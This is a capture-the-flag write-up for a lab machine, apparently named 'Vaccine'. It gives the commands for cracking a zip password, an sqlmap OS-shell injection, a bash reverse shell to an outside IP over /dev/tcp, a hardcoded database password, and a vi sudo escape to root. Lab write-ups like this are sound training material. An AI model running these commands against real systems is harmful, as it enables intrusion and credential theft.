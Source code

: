 First is to access the FTP site

and use the tool `zip2john` to retrieve the `hash` of the password and use `john` to crack it.

`john 'wordlist url' hash.txt`

then we can see the `index.php` and inside we can see the admin credential and the password but it is in a `md5` hash. We will use crackstation to crack it.

`admin:qwerty789`

then we will use sqlmap to get a `--os-shell` to the machine

`sqlmap -u 'http://10.129.235.101/dashboard.php?search=meta' --cookie="PHPSESSID=dql4fqmneifemsggocu7tslpgp" --os-shell`

We will then issue a reverse shell 

`bash -c "bash -i >& /dev/tcp/10.10.14.215/9001 0>&1"`

Then we can find the postgresql password inside `/var/www/html/dashboard.php`

` $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");`

We will now do `sudo -l` to check what it can run as sudo without password.

```
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

By using this site (https://gtfobins.github.io/gtfobins/vi/)

We can try few things but the thing that works for me is to

`sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`

and press `esc` and `:` and type `!/bin/sh`

then a shell will spawn

```
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

# whoami
root
# cd /root
# ls
pg_hba.conf  root.txt  snap
# cat root.txt
dd6e058e814260bc70e9bbdef2715849
# 
```


